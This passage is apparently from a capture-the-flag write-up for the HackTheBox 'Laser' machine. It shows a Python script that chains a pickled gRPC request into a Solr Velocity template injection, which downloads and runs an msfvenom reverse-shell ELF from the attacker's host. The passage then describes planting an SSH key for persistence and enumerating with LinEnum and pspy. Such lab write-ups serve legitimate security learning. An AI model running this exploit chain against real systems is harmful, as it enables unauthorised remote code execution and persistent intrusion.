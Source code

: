 ```python
cmd = 'grpcurl -plaintext -allow-unknown-fields -import-path /root/htb/boxes/laser/grpc_printer/ -proto /root/htb/boxes/laser/grpc_printer/service.proto -d \'{"data":"'+payload.decode('utf-8')+'}"}\' 10.10.10.201:9000 Print.Feed 1>/dev/null'
os.system(cmd)
print("[+] Resource Loader Enabled")

#msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.30 LPORT=1234 -f elf > shell.elf
wget = "exec('wget -O /tmp/shell.elf http://10.10.14.30/shell.elf')"
chmod = "exec('chmod +x /tmp/shell.elf')"
execute = "exec('/tmp/shell.elf')"
commands = [wget, chmod, execute]
for c in commands:
    command = urllib.quote(c)
    pickled = pickle.dumps('{"feed_url": "http://'+HOST+'/solr/'+CORE+'/select?qq=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().'+ command +')+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+%5B1..$out.available()%5D)$str.valueOf($chr.toChars($out.read()))%23end"}')
    #print(pickled)
    payload = base64.b64encode(pickled)
    cmd = 'grpcurl -plaintext -allow-unknown-fields -import-path /root/htb/boxes/laser/grpc_printer/ -proto /root/htb/boxes/laser/grpc_printer/service.proto -d \'{"data":"'+payload.decode('utf-8')+'}"}\' 10.10.10.201:9000 Print.Feed 1>/dev/null'
    os.system(cmd)
    print("[+] Time for Shell...")
```

Now, this was the time to spawn a reverse shell, I tried using the `nc` payload or almost 80% od the pentestmonkey's reverse shell payload but none worked, that's when I created a ELF file with my `LHOST` and `LPORT` and generated it via `msfvenom`. Then I started local HTTP Server and managed to transfer it to the machine. And then running a series of command for marking the file as executable and then executing it, resulted in a reverse shell. So much for a reverse shell.

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-laser/Untitled%207.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-laser/Untitled%207.png)

## Privilege Escalation

Now, we have a reverse shell, we can go to the home directory of the `solr` but there's wasn't any `user` flag? But then I started looking for anything, upon researching I found that the real home directory as `solr` was in `/var/solr` and we got the flag. Then I added my public key to the `.ssh/authorized_keys` as the file wasn't normally there I created it.

Nothing interesting could be found by running LinEnum except the fact that we have a docker running. But no way could be found to get into the docker. So, it was time to run `pspy` to get the list of background process.
